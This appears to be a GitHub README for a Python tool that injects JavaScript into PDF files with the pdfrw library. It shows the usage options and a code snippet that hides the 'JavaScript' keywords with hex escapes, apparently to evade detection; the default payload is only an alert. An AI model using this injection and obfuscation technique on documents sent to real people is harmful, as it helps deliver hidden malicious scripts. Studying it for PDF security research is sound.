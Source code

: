 # Inject-JavaScript-via-PDFrw-example

С использованием библиотеки [PDFrw](https://github.com/pmaupin/pdfrw)

``` 
usage: injector.py [-h] -i PATH [--script SCRIPT] [--name NAME] [--output OUT] [--inject_place INJECT_PLACE]

Inject JavaScript in PDF using PDFrw

optional arguments:
  -h, --help            show this help message and exit
  -i PATH               path/to/orig.pdf
  --script SCRIPT       path to file with JS-script; app.alert({cMsg: "Something wrong!", cTitle: "WARNING"}); by default
  --name NAME           script name if injecting in /Names; ErrorScript by default
  --output OUT          output file name; inj.pdf by default
  --inject_place INJECT_PLACE
                        [OpenAction | Annots | Names]; openaction by default
```

- Пример действия в ветке Names с обфускацией:

```
names = IndirectPdfDict(**{"J#61vaScript": IndirectPdfDict(
        Names=[PdfString(script_name), IndirectPdfDict(JS=PdfString(script_code), S=PdfName('4A617661536372697074'))]
        )})
```

- Результат:

`/Names (Indirect Dict 1)` --> 

(Indirect Dict 1)

`<</J#61vaScript (Indirect Dict 2)>>` --> 

(Indirect Dict 2)

`<< /Names [(script_name), (Indirect Dict 3)` -->

(Indirect Dict 3)

`<< /JS: (script_code;), /S: /4A617661536372697074>>]>>`
